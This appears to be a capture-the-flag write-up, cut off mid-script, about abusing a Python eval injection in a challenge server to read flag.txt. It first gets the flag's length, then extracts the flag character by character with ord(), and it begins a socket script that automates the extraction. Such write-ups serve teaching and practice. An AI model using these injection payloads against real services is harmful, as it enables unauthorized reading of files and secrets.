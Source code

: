 In order to make that happen, we first need to know the flag length.
To do that we connect to the server and pass in the following piece of code as the first input: 

`len(open('flag.txt', 'r').readline().split()[0])`

What it does is simply 
* opening the flag.txt file in reading mode
* reading its content
* splitting the content into a list
* selecting the first element of the list (the flag)
* returning its length

For the second input we pass 0 as we don’t want to mess up the length value,
and for the third one we can pass either ‘+’ or ‘-’

At this point the script will compute `FLAG_LENGTH ± 0`, printing out the actual flag length.

Now we are finally ready to read the flag!
We reconnect to the server and repeat the same procedure with a slightly different line of code:

`ord(open('flag.txt', 'r').readline()[n])`

It does pretty much the same thing as the one above, with the difference that this time we don’t need to get the whole string, so there’s no need to `strip()` it, and instead of calling `len()` we call `ord()` which returns the decimal value of the character at position n.

We still pass 0 and either `‘+’` or `’-’` to the next two inputs and we would get the decimal value of the Nth character of the flag.

All we have to do now is repeat this procedure for every character of the string.
It would take quite a lot of time to do that by hand, so i decided to automatize it with this simple script.

``` python
#!/usr/bin/python2
 
import socket
 
#Custom method to easily send the payload over the socket
def send(sock, payload):
    sent = False
 
    #Waiting for the first input request
    while not sent:
        data = sock.recv(1024)
        if "First" in data:
            #Sending the payload to the server
            sock.send(payload)
            sent = True
 
    sent = False
 
    #Waiting for the second input request
    while not sent:
        data = sock.recv(1024)
        if "Second" in data:
            #Sending 0 as second input
            sock.send("0\n")
            sent = True
 
    sent = False
 
    #Waiting for the third input request
    while not sent:
        data = sock.recv(1024)
        if "Operation" in data:
            #sending '+' as third input
            sock.send("+\n")
```